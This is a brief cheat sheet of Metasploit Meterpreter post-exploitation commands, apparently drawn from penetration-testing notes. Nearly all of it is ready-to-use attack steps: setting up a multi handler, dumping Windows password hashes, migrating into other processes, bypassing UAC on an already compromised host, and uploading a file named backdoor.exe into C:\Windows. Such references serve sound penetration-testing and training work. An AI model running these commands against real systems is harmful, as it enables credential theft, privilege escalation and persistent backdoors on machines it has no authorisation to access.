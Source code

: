 Common Meterpreter Commands

# Common Meterpreter Commands

https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/


#### Multi handler:
```
use exploit/multi/handler
```


#### Reopen session:
```
session -i #
```


#### Get hashes:
```
run post/windows/gather/hashdump
```


#### migrate:
```
run post/windows/manage/migrate
```
or
```
use post/windows/manage/archmigrate
```

#### Bypass UAC:

Use with an already achieved meterpreter shell:

- `use exploit/windows/local/bypassuac`
- `set SESSION <#>`
- `exploit`

This can be used to enable the `getsystem` command to work (potentially).

#### Upload and download files:

`meterpreter > download Logs.log /root/`
`meterpreter > upload /root/backdoor.exe C:\\Windows`